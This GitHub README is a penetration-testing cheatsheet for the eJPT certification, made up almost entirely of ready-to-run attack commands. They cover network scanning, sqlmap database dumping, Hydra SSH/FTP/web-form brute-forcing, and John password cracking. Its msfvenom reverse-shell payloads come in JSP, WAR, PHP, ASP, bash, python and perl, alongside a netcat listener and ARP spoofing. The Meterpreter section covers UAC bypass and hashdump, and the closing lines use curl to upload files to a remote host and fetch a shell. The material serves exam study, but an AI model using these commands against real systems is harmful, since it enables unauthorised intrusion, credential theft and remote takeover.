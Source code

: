 # eJPT-Cheatsheet-Tips
This is a Cheatsheet for eJPT.

### Nmap
nmap -sn 10.10.10.0/24
nmap -sV -p- -iL targets -oN nmap.initial
nmap -A -p- -iL targets -oN nmap.aggressive

### fPing
fping -a -g 10.10.10.0/24 > targets 2>/dev/null

### IP Route
ip route add 172.16.50.0/24 via 10.13.37.1 dev tap0

### John

john --wordlist=/root/Tools/wordlists/rockyou.txt --format=raw-md5

unshadow passwd shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt

### dirb

dirb http://10.10.10.10/

dirb http://10.10.10.10/dir -u admin:admin

### Netcat
#### Listening for reverse shell
nc -nvlp 1234

#### Banner Grabbing
nc -nv 10.10.10.10 <port>

### SQLMap
#### Check if injection exists
<~ With POST Request. Save the post request in a login.req file ~>
sqlmap -r login.req
<~ With url GET Request ~>
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id
<~ With POST Data ~>
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" 

<--Get database if injection Exists-->
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs

<--Get Tables in a Database-->
sqlmap -r login.req -D dbname --tables
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

<--Get data in a Database tables-->
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

### Hydra
<--SSH Login Bruteforcing-->
<~ With unknown username and password ~>
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh
<~ With unknown password ~>
hydra -v -V -u -l admin -P passwords.txt -t 1 -u 10.10.10.10 ssh
Use same for FTP, just replace ssh with ftp

<--HTTP POST Form-->
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L /usr/share/ncrack/minimal.usr -P /root/Tools/SecLists/Passwords/Leaked-Databases/rockyou-15.txt -f -V

### msfvenom shells
JSP Java Meterpreter Reverse TCP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

Bash Unix Reverse Shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

Python
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

### Metasploit Meterpreter autoroute
run autoroute -s 10.10.10.0/24

### ARPSpoof
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i <interface> -t <target> -r <host>
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

### SMB Enumeration
<--Get shares, users, groups, password policy-->
smbclient -L //10.10.10.10/
enum4linux -U -M -S -P -G 10.10.10.10
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v

<--Access Share-->
smbclient //10.10.10.10/share_name

### FTP Enumeration
nmap --script=ftp-anon 10.10.10.10 -p21 -v
ftp 10.10.10.10

### Meterpreter
ps
getuid
getpid
getsystem
ps -U SYSTEM
<--CHECK UAC/Privileges-->
run post/windows/gather/win_privs
<--BYPASS UAC-->
*Background the session first
exploit/windows/local/bypassuac
set session
<--After PrivEsc-->
migrate <pid>
hashdump

### Remote code execution
<--curl-->
curl http://10.10.10.10:8888 -T /tmp/r
curl http://10.10.10.10:8888/shell -o /tmp/shell
curl http://10.10.10.10/'id' | base64
curl http://10.10.10.10/'whoami'


